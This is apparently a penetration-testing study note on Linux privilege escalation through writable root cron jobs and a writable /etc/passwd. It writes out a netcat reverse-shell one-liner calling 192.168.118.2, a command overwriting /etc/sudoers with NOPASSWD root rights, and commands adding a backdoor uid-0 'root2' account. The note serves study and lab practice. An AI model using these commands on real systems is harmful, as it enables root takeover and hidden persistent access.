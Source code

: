 ```yaml
---
tags: openssl
---
```

## Abusing Cron Jobs

Prerequisite:
- locate an executable file that not only allows us write access, but also runs at an elevated privilege level

Check running cron jobs:
`grep "CRON" /var/log/syslog`

Target cron jobs which run as root

Can infer its running period by its timestamp

Use `cat` to inspect its contents and `ls -lah` to inspect its permissions (see if it allows write access to us)

### Reverse shell

Edit target script to add a reverse shell one-liner. When the cron job starts again, we will receive the reverse shell as root
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> [script_path]`

Finally, set up a listener and wait for the cron job to run

### Give current user sudo rights

Alternatively, 
`echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers`
to add your current user as a sudoer (where `kali` is your current username)

## Abusing Password Authentication

Prerequisite: **/etc/passwd** is writeable by us

- Unless a centralized credential system such as Active Directory or LDAP is used, Linux passwords are generally stored in **/etc/shadow**, which is not readable by normal users
- For backwards compatibility, if a password hash is present in the second column of an **/etc/passwd** user record, it is considered valid for authentication and it takes precedence over the respective entry in **/etc/shadow**

Goal: write a password hash into **/etc/passwd** to set an arbitrary password for any account

Add another superuser (root2) and the corresponding password hash to **/etc/passwd**:
1. Generate password hash:
   `openssl passwd w00t`
2. Write the new entry to **/etc/passwd**:
   `echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`
3. Escalate privileges with the password!
   `su root2`